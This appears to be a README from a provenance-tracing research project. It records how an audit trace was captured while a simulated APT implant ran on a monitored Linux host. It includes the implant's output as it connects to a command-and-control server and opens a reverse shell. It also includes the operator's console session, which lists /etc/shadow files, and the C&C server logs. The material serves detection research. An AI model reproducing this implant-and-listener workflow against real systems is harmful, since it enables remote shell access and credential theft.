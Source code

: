 Trace was obtained by running these commands on the Monitored Host:

1. `./1_run_simple_apt.sh`
2. `date; /tmp/simple 13.1.102.2 4000`
3. `date; sudo spade stop`
4. `rsync -av /tmp/simple_apt.cdm adapt@seaside.galois.com:trace/2016-08-11/simple_with_marker_3.avro`

sample output
=============

    Script started on Thu 11 Aug 2016 11:39:34 AM PDT
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ ./run_simple_apt.sh
    Running on unusual Monitored Host. Proceding...
    /tmp/simple 13.1.102.2 4000

    + sudo auditctl -a exit,always -F arch=b64 -S socket -S bind -S listen -S accept
    + sudo auditctl -l -a always,exit -F arch=x86_64 -S socket,accept,bind,listen
    + sudo auditctl -b 8000
    enabled 1
    flag 1
    pid 529
    rate_limit 0
    backlog_limit 8000
    lost 0
    backlog 0

    + sudo spade start
    + exit 0
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ Starting SPADE as a daemon with PID: 13259

    hangang:~/adapt/classifier/phase3/marker/monitored-host$ spade control

    SPADE 2.0 Control Client

    Available commands:
    	add reporter|storage <class name> <arguments>
    	add filter|transformer <class name> position=<number> <arguments>
    	add sketch <class name>
    	remove reporter|storage|sketch <class name>
    	remove filter|transformer <position number>
    	list reporters|storages|filters|sketches|transformers|all
    	config load|save <filename>
    	exit

    -> list all
    No reporters added
    No storages added
    No filters added
    No transformers added
    No sketches added

    -> add storage CDM output=/tmp/simple_apt.cdm
    Adding storage CDM... done

    -> add reporter Audit arch=64 units=false fileIO=true netIO=true
    Adding reporter Audit... done

    -> list all
    1 reporter(s) added:
    	1. Audit (arch=64 units=false fileIO=true netIO=true)
    1 storage(s) added:
    	1. CDM (output=/tmp/simple_apt.cdm)
    No filters added
    No transformers added
    No sketches added

    -> exit
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ sudo auditctl -s
    enabled 1
    flag 1
    pid 529
    rate_limit 0
    backlog_limit 8000
    lost 0
    backlog 1126
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ /tmp/simple 13.1.102.2 4000
    [*] Target: 13.1.102.2:4000
    [*] Initializing message subsystem
    [*] Initializing network
    [*] Initializing session
    [*] Starting session
    [*] Getting OS information...
    [*] Linux #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) (3.16.0-4-amd64)
    [*] Encoding message
    [*] Encoding new connection info message
    [*] Sending message of 80 bytes (1 chunks)
    [*] Sending data: 95 bytes
    [*] Sent chunk of 95 bytes
    [*] Sent total message of 80 bytes
    [*] Sent 80 bytes
    [*] Creating message loop thread...
    [*] Starting message receive loop...
    [*] Entering C&C message processing loop...
    [*] Received 24 bytes
    [*] Allocating 24 bytes for pMsg
    [*] Destroying message list 1
    [*] Received message type 210 (9 bytes)
    [*] Decoding Shell Request message
    [*] Creating message type 210 handler thread...
    [*] shell_start
    [+] Shell session connecting to listener at 13.1.102.2:40000
    [+] Shell session connected to listener at 13.1.102.2:40000
    [*] Child exited with status 0
    [*] Exiting message receive loop
    [*] Session is not connected
    [*] Ending session
    [*] Cleaning up network
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ time sudo spade stop
    SPADE daemon will stop after buffers clear.

    real	0m1.500s
    user	0m0.448s
    sys	0m0.056s
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ sudo auditctl -s
    enabled 1
    flag 1
    pid 529
    rate_limit 0
    backlog_limit 8000
    lost 0
    backlog 0
    hangang:~/adapt/classifier/phase3/marker/monitored-host$ exec ls -l /tmp/simple_apt.cdm
    -rw-r--r-- 1 root root 359569 Aug 11 11:41 /tmp/simple_apt.cdm

    Script done on Thu 11 Aug 2016 11:41:43 AM PDT


corresponding session in Shanghai
---------------------------------

    galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$  python ocMain.py 13.1.102.2 4000
    [*] Listening for new connections on 13.1.102.2:4000
    MAIN>[*] Connected with 13.1.101.46:53951
    [*] Initialized message multiplexor
    [*] New console information
    [*] =======================
    [*] 	Linux
    [*] 	#1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29)
    [*] 	3.16.0-4-amd64
    [*] New Linux console: L1
    .
    MAIN>console L1
    L1>shell ls -l /etc/shadow*
    .
    <<< New shell child process 8633 created.  Use 'exit' to exit or CTRL-C to reset shell >>>
    -rw-r----- 1 root shadow 1563 Feb 11 13:27 /etc/shadow
    -rw------- 1 root root   1563 Feb 11 13:27 /etc/shadow-
    -rw-r----- 1 root shadow 1534 Feb 11 13:01 /etc/shadow.org
    [*] Script complete, exiting shell...
    L1>quit
    MAIN>[*] Lost connection to client
    [*] Exiting session...
    [*] Exiting client thread

    MAIN>galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$


logs retained by Unit 61398
---------------------------

    galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$  head -99 logs/20160811_112857/*.log
    ==> logs/20160811_112857/L1.log <==
    2016-08-11 11:40:33,114   ocConsoleBase:028 [DEBUG] Created log for new console L1
    2016-08-11 11:40:44,460 ocConsoleSubBase:039 [DEBUG] CMD: shell ls -l /etc/shadow*
    2016-08-11 11:40:44,587 ocConsoleSubBase:199 [DEBUG] SCRIPT: ls -l /etc/shadow*; exit


    <<< New shell child process 8633 created.  Use 'exit' to exit or CTRL-C to reset shell >>>

    -rw-r----- 1 root shadow 1563 Feb 11 13:27 /etc/shadow
    -rw------- 1 root root   1563 Feb 11 13:27 /etc/shadow-
    -rw-r----- 1 root shadow 1534 Feb 11 13:01 /etc/shadow.org

    2016-08-11 11:40:54,600 ocConsoleSubBase:233 [ INFO] Script complete, exiting shell...
    2016-08-11 11:40:56,599 ocConsoleSubBase:039 [DEBUG] CMD: quit
    2016-08-11 11:40:56,668   ocConsoleBase:081 [ INFO] Exiting client thread

    ==> logs/20160811_112857/main.log <==
    2016-08-11 11:28:57,289   ocConsoleBase:028 [DEBUG] Created log for new console None
    2016-08-11 11:28:57,289   ocConsoleBase:031 [DEBUG] ------ ConsoleMain ---------
    2016-08-11 11:28:57,290   ocConsoleBase:032 [DEBUG] 	module name: ocConsoleBase
    2016-08-11 11:28:57,290   ocConsoleBase:034 [DEBUG] 	parent process: 32398
    2016-08-11 11:28:57,290   ocConsoleBase:035 [DEBUG] 	process id: 8498
    2016-08-11 11:28:57,290  ocSocketServer:021 [DEBUG] Initializing socket server
    2016-08-11 11:28:57,290  ocSocketServer:040 [ INFO] Listening for new connections on 13.1.102.2:4000
    2016-08-11 11:40:33,054  ocSocketServer:047 [ INFO] Connected with 13.1.101.46:53951
    2016-08-11 11:40:33,110           ocMux:060 [ INFO] Initialized message multiplexor
    2016-08-11 11:40:33,110  ocSocketServer:086 [ INFO] New console information
    2016-08-11 11:40:33,110  ocSocketServer:087 [ INFO] =======================
    2016-08-11 11:40:33,111  ocSocketServer:089 [ INFO] 	Linux
    2016-08-11 11:40:33,111  ocSocketServer:091 [ INFO] 	#1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29)
    2016-08-11 11:40:33,111  ocSocketServer:093 [ INFO] 	3.16.0-4-amd64
    2016-08-11 11:40:33,111   ocConsoleMain:231 [ INFO] New Linux console: L1
    2016-08-11 11:40:33,115           ocMux:142 [DEBUG] [1000] Received 1/1 (95 bytes)
    .
    2016-08-11 11:40:39,386   ocConsoleMain:137 [DEBUG] Command: console [L1]
    2016-08-11 11:40:44,486           ocMux:074 [DEBUG] Sending message of 1 chunks...
    2016-08-11 11:40:56,599           ocMux:133 [ INFO] Lost connection to client
    2016-08-11 11:40:56,599           ocMux:134 [ INFO] Exiting session...
    galaxy1:~/Documents/TransparentComputing/malware/cross-platform/simple-apt/oc1$
